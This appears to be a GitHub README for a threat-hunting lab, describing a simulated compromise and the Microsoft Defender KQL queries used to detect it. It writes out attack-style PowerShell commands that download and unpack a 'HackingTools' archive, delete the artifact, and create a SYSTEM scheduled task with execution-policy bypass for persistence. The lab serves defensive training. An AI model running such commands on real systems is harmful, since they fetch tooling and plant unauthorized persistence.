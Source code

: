 # Threat Hunting Scenario (System Compromise)
**Threat Actor Malicious File Download and Malicious File Execution**

### `MaliciousExecutable.exe` Creation and Purpose

The "malicious" executable used within the project was originally written as a PowerShell script and converted into an exectuable using `PS2EXE` (https://github.com/MScholtes/PS2EXE). The intention of the executable was to emulate possible actions a threat actor would undertake once inside a system. I wanted the the executable to perform several commands to populate the `Microsoft Defender for Endpoint` logs. To add another layer of realism to the project, I obfuscated the commands to "challenge" and test a threat hunter's knowledge and resourcefulness. While there were other possible network reconnaissance techniques the executable could have performed, I chose a non-intrusive technique in an attempt to not disrupt other devices and systems in the network. 


## Steps the Threat Actor Took to Create Logs and IoCs:
1. Several failed user logons in quick succession.
2. Opened a PowerShell terminal and executed the command `Invoke-WebRequest -Uri \"https://github.com/AaronRMartinez/Threat-Hunting-Scenario-Compromise/raw/refs/heads/main/MaliciousExecutable.exe\" -OutFile \"$env:USERPROFILE\\Downloads\\MaliciousExecutable.exe\"` to initiate the `MaliciousExecutable.exe` download.
3. Once `MaliciousExecutable.exe` was downloaded, the threat actor simply double-clicked the executable to run it. 
4. When executed, `MaliciousExecutable.exe` ran several encoded PowerShell commands to populate the EDR logs. These commands consisted of:

   - First Command: `Invoke-WebRequest -Uri "https://github.com/AaronRMartinez/Threat-Hunting-Scenario-Compromise/raw/refs/heads/main/HackingTools.zip" -OutFile "$env:USERPROFILE\Downloads\HackingTools.zip"`

   - Second Command: `Expand-Archive -Path "$env:USERPROFILE\Downloads\HackingTools.zip" -DestinationPath "$env:USERPROFILE\Downloads\HackingTools" -Force`

   - Third Command: `Remove-Item -Path "$env:USERPROFILE\Downloads\HackingTools.zip" -Force`

   - Fourth Command: `schtasks /create /tn "PersistenceScheduledTask" /tr "powershell.exe -ExecutionPolicy Bypass -File $env:USERPROFILE\Downloads\HackingTools\HackingTools\PersistenceScript.ps1" /sc onlogon /ru SYSTEM /f`

   - Fifth Command: `arp -a | Out-File -FilePath "$env:USERPROFILE\Desktop\arp_results.txt"`

The executable downloaded a zip file to the user's Downloads file, extracted the contents, and deleted the artifact created by the extraction process. The executable created a scheduled task to mimic the actions a threat actor would perform to gain persistence on the system and conducted non-intrusive network reconnaissance.   

---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceLogonEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect a high number of failed logon attempts on a system. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to gain a general overview of a system to observe if any malicious activity is occurring.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcesskEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any commands executed by either the threat actor or malicious files.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any network connections that could suggest possible file downloads.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any malicious file creation occurring on the system.|

---

## Related Queries:
```kql
// Detect failed and successful logon attempts for the "aaronmart" account on the endpoint "arm-thcompromis"
DeviceLogonEvents
| where DeviceName == "arm-thcompromis"
| project Timestamp, DeviceName, ActionType, LogonType, AccountName, FailureReason

// "MaliciousExecutable.exe" being downloaded by threat actor
// PowerShell command executing this action contained the "Invoke-WebRequest" command
DeviceEvents
| where DeviceName == "arm-thcompromis"
| where Timestamp > datetime(2025-03-15T15:02:10.5325975Z)
| where ActionType == "PowerShellCommand"
| where AdditionalFields contains "Invoke-WebRequest"
| project Timestamp, InitiatingProcessAccountName, InitiatingProcessId, InitiatingProcessCommandLine, AdditionalFields

// "MaliciousExecutable.exe" was successfully installed and is present on the disk
DeviceFileEvents
| where FileName has_any ("MaliciousExecutable.exe")
| project  Timestamp, DeviceName, RequestAccountName, ActionType, InitiatingProcessCommandLine

// "MaliciousExecutable.exe" was executed
DeviceProcessEvents
| where ProcessCommandLine has_any("MaliciousExecutable.exe")
| project  Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// "MaliciousExectuable.exe" executing the PowerShell commands
DeviceProcessEvents
| where DeviceName == "arm-thcompromis"
| where InitiatingProcessFileName == "maliciousexecutable.exe"
| order by Timestamp asc
| project Timestamp, ActionType, FileName, ProcessCommandLine

// "MaliciousExecutable.exe" creating a scheduled task
DeviceEvents
| where InitiatingProcessFileName == "maliciousexecutable.exe"
| where FileName == "schtasks.exe"
| order by Timestamp asc
| project Timestamp, InitiatingProcessAccountName, InitiatingProcessId, InitiatingProcessCommandLine, AdditionalFields

// "MaliciousExecutable.exe" saving the "arp -a" results in a text file
DeviceFileEvents
| where FileName == "arp_results.txt"
| project  Timestamp, DeviceName, RequestAccountName, ActionType, InitiatingProcessCommandLine
```

---

## Created By:
- **Author Name**: Aaron Martinez
- **Author Contact**: https://www.linkedin.com/in/aaron-m-59725a332/
- **Date**: March 16, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `March  16, 2025`  | `Aaron Martinez`   
